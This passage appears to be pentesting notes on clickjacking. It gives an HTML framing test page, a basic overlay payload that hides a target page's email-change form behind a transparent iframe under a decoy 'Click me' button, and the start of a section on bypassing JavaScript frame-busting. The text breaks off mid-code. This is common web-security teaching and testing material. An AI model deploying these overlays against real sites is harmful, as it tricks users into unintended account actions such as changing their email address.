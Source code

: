 # Code Templates and Payloads
### HTML code template
```html
<html>
 <head>
 <title>Clickjack test page</title>
 </head>
 <body>
 <p>Web page is vulnerable to clickjacking if the iframe is populated with the target page!</p>
 <iframe src="URL_OF_TARGET_PAGE" width="500" height="500"></iframe>
 </body>
</html>
```
### Basic payload
```html
<style>
   iframe {
       position:relative;
       width: 500px;
       height: 700px;
       opacity: 0.1;
       z-index: 2;
   }
   div {
       position:absolute;
       top:470px;
       left:60px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://vulnerable.com/email?email=asd@asd.asd"></iframe>
```

# Bypassing Protections
if the website uses frame-busting techniques instead of HTTP response headers and `SameSite` cookies: find a loophole in the `frame-busting code` so you might be able to bypass the mitigations

> [!frame-busting code]
> is a technique that use JavaScript code to check if the page is in an iframe, and if it’s framed by a trusted site. Frame-busting is an unreliable way to protect against clickjacking and can be bypassed

developers commonly make the mistake of comparing only the top frame to the current frame when trying to detect whether the protected page is framed by a malicious page. If the top frame has the same origin as the framed page they allow it, code ex:
```javascript
if (top.location == self.location){
// Allow framing.
} 
else{
// Disallow framing.
}
```
## If that is the case, we use one of the following:
### 1- HTML 5 Sandbox Attribute:
```html
<style>
   iframe {
       position:relative;
```